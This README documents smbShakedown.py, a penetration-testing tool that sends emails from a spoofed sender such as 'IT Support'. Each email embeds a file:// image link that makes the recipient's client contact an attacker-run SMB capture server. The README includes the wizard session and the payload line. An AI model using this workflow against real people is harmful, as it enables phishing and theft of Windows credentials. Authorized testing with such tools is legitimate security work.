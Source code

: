 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Usage
        Launch smbShakedown.py and follow the wizard:
        
        Enter SMTP Server address[smtp.gmail.com]: mail.myrelay.com
        ENTERED: "mail.myrelay.com"

        Enter your SMTP Server Port[587]: 25
        ENTERED: "25"

        Enter SMTP Server username[user@gmail.com]: beamr@gmail.com
        ENTERED: "beamr@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.0.0.7]: 
        ENTERED:10.0.0.7

        Enter "from name":[IT Support]
        ENTERED:IT Support

        Enter "from address":[itsupport@company.com]support@company123.com
        ENTERED:support@company123.com

        Enter recipient(s) name[Bob]: Nick
        ENTERED:Nick
        
        etc..

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server:
    
    1.Configure SMTP Relay server address:
    
    2.Enter SMTP Relay server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email: 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally:
    EX: Use a VPS

#Internal Pentest
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally:
    EX: Metasploit's SMB Capture server can be configured to automatically launch.

#To do:
    Multiple recipient address support.
    SMTP Anonymous Auth option
    Add error handling.
    fork.

